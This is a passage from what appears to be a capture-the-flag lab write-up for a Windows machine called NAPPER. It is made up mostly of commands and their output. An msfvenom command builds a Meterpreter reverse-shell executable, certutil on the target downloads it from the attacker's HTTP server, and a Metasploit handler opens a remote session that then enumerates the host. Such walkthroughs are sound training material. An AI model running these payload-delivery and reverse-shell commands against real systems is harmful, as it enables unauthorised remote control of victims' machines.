 ```
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.64 LPORT=1337 -f exe | tee -a shell.exe


C:\Windows\system32>certutil -urlcache -f http://10.10.16.64:4242/shell.exe %temp%/s.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

┌──(root㉿1337)-[/tmp/shell]
└─# python3 -m http.server 4242
Serving HTTP on 0.0.0.0 port 4242 (http://0.0.0.0:4242/) ...
10.10.11.240 - - [14/Nov/2023 20:00:13] "GET /shell.exe HTTP/1.1" 200 -
10.10.11.240 - - [14/Nov/2023 20:00:15] "GET /shell.exe HTTP/1.1" 200 -

```
**Meterpreter**
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.64:1337 
[*] Sending stage (200774 bytes) to 10.10.11.240
[*] Meterpreter session 1 opened (10.10.16.64:1337 -> 10.10.11.240:64063) at 2023-11-14 20:01:08 +0000

meterpreter > 
meterpreter > sysinfo 
Computer        : NAPPER
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

```
```
I used netstat and i have a lot of open ports.

    tcp    127.0.0.1:9200                   0.0.0.0:*          LISTEN       0     0      4760/java.exe
    tcp    127.0.0.1:9300                   0.0.0.0:*          LISTEN       0     0      4760/java.exe
    tcp    127.0.0.1:64054                  127.0.0.1:9200     TIME_WAIT    0     0      0/[System Process]
    tcp    127.0.0.1:64064                  127.0.0.1:9200     TIME_WAIT    0     0      0/[System Process]
    tcp6   :::80                            :::*               LISTEN       0     0      4/System
    tcp6   :::135                           :::*               LISTEN       0     0      900/svchost.exe
    tcp6   :::443                           :::*               LISTEN       0     0      4/System
    tcp6   :::445                           :::*               LISTEN       0     0      4/System
    tcp6   :::7680                          :::*               LISTEN       0     0      356/svchost.exe
    tcp6   :::49664                         :::*               LISTEN       0     0      676/lsass.exe
    tcp6   :::49665                         :::*               LISTEN       0     0      516/wininit.exe
    tcp6   :::49666                         :::*               LISTEN       0     0      1104/svchost.exe
    tcp6   :::49667                         :::*               LISTEN       0     0      1520/svchost.exe
    tcp6   :::62403                         :::*               LISTEN       0     0      660/services.exe

```